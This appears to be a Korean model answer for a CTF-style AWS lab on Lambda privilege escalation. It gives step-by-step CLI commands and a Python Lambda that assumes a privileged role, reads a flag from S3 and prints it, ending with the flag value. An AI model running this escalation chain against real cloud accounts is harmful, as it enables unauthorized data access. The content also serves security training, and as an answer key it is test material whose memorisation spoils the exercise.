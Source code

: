 # [lambda_privesc_bypass] 모범 답안

1. Terraform을 통해 생성된 Access Key와 Secret Key를 사용하여 AWS CLI 프로필을 구성한다.


```bash
aws configure --profile yejin
```
2. 설정이 올바르게 되었는지 확인한다.
```bash
aws sts get-caller-identity --profile yejin
```

3. Lambda 공격용 코드를 작성한다(lambda_function.py).
```bash
import boto3

def lambda_handler(event, context):
    sts = boto3.client('sts')
    assumed_role = sts.assume_role(
        RoleArn="arn:aws:iam::[계정 ID]:role/lambdaManagerRole",
        RoleSessionName="poc-session",
        ExternalId="poc-external-id"
    )
    creds = assumed_role['Credentials']
    s3 = boto3.client('s3',
        aws_access_key_id=creds['AccessKeyId'],
        aws_secret_access_key=creds['SecretAccessKey'],
        aws_session_token=creds['SessionToken']
    )
    obj = s3.get_object(Bucket="flag-bucket-lambda-privesc", Key="flag.txt")
    flag = obj['Body'].read().decode()
    print("FLAG:", flag)
    return {"flag": flag}
```

4. 작성한 Lambda 코드를 zip으로 압축한다.
```bash
zip function.zip lambda_function.py
```

5. Lambda 함수를 생성한다.
```bash
aws lambda create-function \
  --function-name privEscLambda \
  --runtime python3.12 \
  --role arn:aws:iam::[계정 ID]:role/DebugRole \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://function.zip \
  --region ap-northeast-2 \
  --profile yejin
```
6. 만약 에러가 나면 기본 3초인 timeout을 10초로 설정한다.
```bash
aws lambda update-function-configuration \
  --function-name privEscLambda \
  --timeout 10 \
  --region ap-northeast-2 \
  --profile yejin
```

7. Lambda 함수를 실행하고 flag를 출력한다.
```bash
aws lambda invoke \
  --function-name privEscLambda \
  --payload '{}' \
  --log-type Tail \
  --query 'LogResult' \
  --output text \
  --region ap-northeast-2 \
  --profile yejin \
  outfile.txt | base64 -d
```

`flag` : FLAG{happyhappyhappy~!}


